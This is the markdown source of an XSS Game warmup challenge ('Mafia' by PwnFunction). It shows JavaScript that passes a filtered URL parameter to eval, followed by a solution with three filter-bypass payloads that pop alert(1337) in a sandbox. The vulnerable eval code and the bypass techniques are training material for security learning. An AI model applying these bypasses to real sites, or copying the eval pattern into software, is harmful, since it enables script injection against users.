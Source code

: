 ```yaml
---
title: "XSS Game - Mafia | PwnFunction"
header: "Mafia"
challengeUrl: "https://sandbox.pwnfunction.com/warmups/mafia.html"
date: 2020-01-19T18:23:18+05:30
draft: false
type: warmup
difficulty: Easy
---
```


{{< rules >}}
<li>Difficulty is <b>Easy</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
{{</ rules >}}

{{< code >}}<code class="language-js">/* Challenge */
mafia = (new URL(location).searchParams.get('mafia') || '1+1')
mafia = mafia.slice(0, 50)
mafia = mafia.replace(/[\`\'\"\+\-\!\\\[\]]/gi, '_')
mafia = mafia.replace(/alert/g, '_')
eval(mafia)</code>{{< /code >}}

{{< solution >}}
<p>The GET parameter <code>mafia</code> is passed to <code>eval</code>, but it does a couple of
    things before it sends it over.
    <ul>
        <li>Truncates to length <code>50</code>.</li>
        <li><code>`'"+-!\[]</code> are replaced by an underscore.</li>
        <li>Replaces the string <code>alert</code> with underscores.</li>
    </ul>
</p>
To bypass this, we can simply use regex to get the string, lowercase it and feed it to
<code>Function</code>.
<pre
    class="solution-code-block"><code class="language-js">Function(/ALERT(1337)/.source.toLowerCase())()</code></pre>
<p>Or</p>
<pre
    class="solution-code-block"><code class="language-js">eval(8680439..toString(30))(1337)</code></pre>
<p>Or even better,</p>
<pre class="solution-code-block"><code class="language-js">eval(location.hash.slice(1))</code></pre>
and then add <code>#alert(1337)</code> to the URL to make it work. <br>(Thanks to @terjanq)
<br><br>
{{< /solution >}}